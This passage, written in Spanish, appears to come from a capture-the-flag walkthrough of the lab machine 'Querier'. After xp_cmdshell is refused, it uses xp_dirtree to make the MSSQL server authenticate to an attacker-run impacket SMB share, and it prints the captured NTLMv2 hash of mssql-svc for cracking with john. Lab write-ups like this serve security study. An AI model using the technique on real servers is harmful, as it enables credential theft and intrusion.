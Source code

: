Comprobamos si tenemos el ``xp_cmdshell`` habilitado.

````bash
SQL> help

     lcd {path}                 - changes the current local directory to {path}
     exit                       - terminates the server process (and this session)
     enable_xp_cmdshell         - you know what it means
     disable_xp_cmdshell        - you know what it means
     xp_cmdshell {cmd}          - executes cmd using xp_cmdshell
     sp_start_job {cmd}         - executes cmd using the sql server agent (blind)
     ! {cmd}                    - executes a local shell cmd
     
SQL> enable_xp_cmdshell
[-] ERROR(QUERIER): Line 105: User does not have permission to perform this action.
[-] ERROR(QUERIER): Line 1: You do not have permission to run the RECONFIGURE statement.
[-] ERROR(QUERIER): Line 62: The configuration option 'xp_cmdshell' does not exist, or it may be an advanced option.
[-] ERROR(QUERIER): Line 1: You do not have permission to run the RECONFIGURE statement.
SQL> 
`````

No te nemos permiso para ejecutar comandos, pero si se puede usar el ``xp_dirtree``, si creamos un recurso compartido con ``impacket-smbserver`` se puede obtener un hash ``NTLM-v2`` que se puede crackear con ``john``.

````bash
SQL> xp_dirtree '\\10.10.14.9\smbFolder'
subdirectory                            
`````

````bash
❯ impacket-smbserver smbFolder $(pwd) -smb2support
Impacket v0.10.0 - Copyright 2022 SecureAuth Corporation

[*] Config file parsed
[*] Callback added for UUID 4B324FC8-1670-01D3-1278-5A47BF6EE188 V:3.0
[*] Callback added for UUID 6BFFD098-A112-3610-9833-46C3F87E345A V:1.0
[*] Config file parsed
[*] Config file parsed
[*] Config file parsed
[*] Incoming connection (10.10.10.125,49678)
[*] AUTHENTICATE_MESSAGE (QUERIER\mssql-svc,QUERIER)
[*] User QUERIER\mssql-svc authenticated successfully
[*] mssql-svc::QUERIER:aaaaaaaaaaaaaaaa:5cf3053c7e8782fed4d742cc98dd3294:010100000000000080cc5d404dfcd8012e1d4aaef03691ef000000000100100055006900440064006d004c00640057000300100055006900440064006d004c0064005700020010004500740052007700630050005800520004001000450074005200770063005000580052000700080080cc5d404dfcd801060004000200000008003000300000000000000000000000003000004b66ba889951c5afb9413dc5e404c92f815228f34683d759418e78780ac9551a0a0010000000000000000000000000000000000009001e0063006900660073002f00310030002e00310030002e00310034002e003900000000000000000000000000
[*] Connecting Share(1:smbFolder)
[*] AUTHENTICATE_MESSAGE (\,QUERIER)
[*] User QUERIER\ authenticated successfully
`````
